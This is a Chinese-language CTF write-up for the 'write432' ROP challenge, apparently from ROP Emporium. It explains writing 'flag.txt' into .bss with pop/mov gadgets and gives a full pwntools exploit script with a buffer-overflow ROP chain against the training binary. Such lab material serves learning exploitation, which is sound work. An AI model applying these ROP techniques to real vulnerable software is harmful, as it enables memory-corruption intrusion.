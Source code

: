 # write432

> 我们需要执行print_file("flag.txt")，32位要用栈传递参数。

1. 我们把bss的地址传给%edi，把'flag'传给%ebp，然后把%ebp（'flag'）传递给%edi所指向的地址，即bss的首地址。

2. 同理，把bss+4的地址传给%edi，把'.txt'传给%ebp，然后把%ebp（.txt）传递给%edi所指向的地址，即bss+4。

3. 同理，把bss+8的地址传给%edi，把'\0'传给%ebp，然后把%ebp（\0）传递给%edi所指向的地址，即bss+8。

4. 最后，调用print_file()，参数地址设置在bss段首地址。

Exp:
```python
import pwn
  
pwn.context(arch='i386', os='linux', log_level='debug')

p = pwn.process('./write432')
e = pwn.ELF('./write432')
libwrite432 = pwn.ELF('./libwrite432.so')

print_file_plt = pwn.p32(e.plt['print_file'])
bss_addr = e.bss()                          # bss段的首地址
pop_edi_ebp_addr = pwn.p32(0x080485aa)        # pop edi ; pop ebp ; ret
mov_ebp__edi__addr = pwn.p32(0x08048543)      # mov %ebp (%edi) ; ret 

'''
for k, v in e.sym.items():
    print(k, hex(v))
'''

# pwn.gdb.attach(p)

payload = b'A' * 0x28 + b'B' * 4 + pop_edi_ebp_addr + pwn.p32(bss_addr) + b'flag' + mov_ebp__edi__addr  
#                                           #  pop bss_addr to edi  | pop 'flag' to ebp  | mov 'flag' to (%edi) -> bss_addr
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 4) + b'.txt' + mov_ebp__edi__addr
#                           #  pop bss+4 to edi  | pop '.txt' to ebp  | mov '.txt' to (%edi) -> bss+4
payload += pop_edi_ebp_addr + pwn.p32(bss_addr + 8) + pwn.p32(0) + mov_ebp__edi__addr
#                           #  pop bss+8 to edi  | pop '\0' to ebp  | mov '\0' to (%edi) -> bss+8
payload += print_file_plt + b'RRRR' + pwn.p32(bss_addr)                                                 
#                                #  bss_addr = 'flag.txt\0'
p.sendlineafter(b'> ', payload)
p.recv()
```